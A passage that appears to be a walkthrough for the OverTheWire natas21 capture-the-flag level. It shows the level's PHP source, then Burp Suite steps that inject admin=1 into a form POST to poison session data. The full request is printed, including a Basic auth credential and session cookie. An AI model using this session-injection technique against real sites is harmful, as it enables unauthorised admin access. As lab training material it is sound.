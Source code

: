 ```
$form .= '</form>';

$style = "background-color: ".$_SESSION["bgcolor"]."; text-align: ".$_SESSION["align"]."; font-size: ".$_SESSION["fontsize"].";";
$example = "<div style='$style'>Hello world!</div>";

?>

<p>Example:</p>
<?=$example?>

<p>Change example values here:</p>
<?=$form?>

<div id="viewsource"><a href="index-source.html">View sourcecode</a></div>
</div>
</body>
</html>

# Open Burp Suite: Temporary project in memory: Use Burp defaults
# Proxy → Open browser: http://natas21-experimenter.natas.labs.overthewire.org/index.php
# Proxy → Intercept on
# Burp Browser click Update
# Right click Request and select Send to 
# Repeater and add &admin=1
    Original:   align=center&fontsize=100%25&bgcolor=yellow&submit=Update
    Modfied:    align=center&fontsize=100%25&bgcolor=yellow&admin=1&submit=Update
# Add ?debug on end of /index.php in Request POST
    POST /index.php?debug HTTP/1.1 👀
    Host: natas21-experimenter.natas.labs.overthewire.org
    Content-Length: 65
    Cache-Control: max-age=0
    Authorization: Basic bmF0YXMyMTpCUGh2NjNjS0UxbGtRbDA0Y0U1Q3VGVHpYZTE1TmZpSA==
    Accept-Language: en-US,en;q=0.9
    Origin: http://natas21-experimenter.natas.labs.overthewire.org
    Content-Type: application/x-www-form-urlencoded
    Upgrade-Insecure-Requests: 1
    User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/138.0.0.0 Safari/537.36
    Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
    Referer: http://natas21-experimenter.natas.labs.overthewire.org/index.php
    Accept-Encoding: gzip, deflate, br
    Cookie: PHPSESSID=khutiibnrqqar0p50fm87bb72h ⭐
    Connection: keep-alive

    align=center&fontsize=100%25&bgcolor=yellow&admin=1&submit=Update 👀
# Send and look at Response
    HTTP/1.1 200 OK
    Date: Wed, 06 Aug 2025 19:54:46 GMT
    Server: Apache/2.4.58 (Ubuntu)
    Expires: Thu, 19 Nov 1981 08:52:00 GMT
    Cache-Control: no-store, no-cache, must-revalidate
    Pragma: no-cache
    Vary: Accept-Encoding
    Content-Length: 994
    Keep-Alive: timeout=5, max=100
    Connection: Keep-Alive
    Content-Type: text/html; charset=UTF-8

    <html>
    <head><link rel="stylesheet" type="text/css" href="http://natas.labs.overthewire.org/css/level.css"></head>
```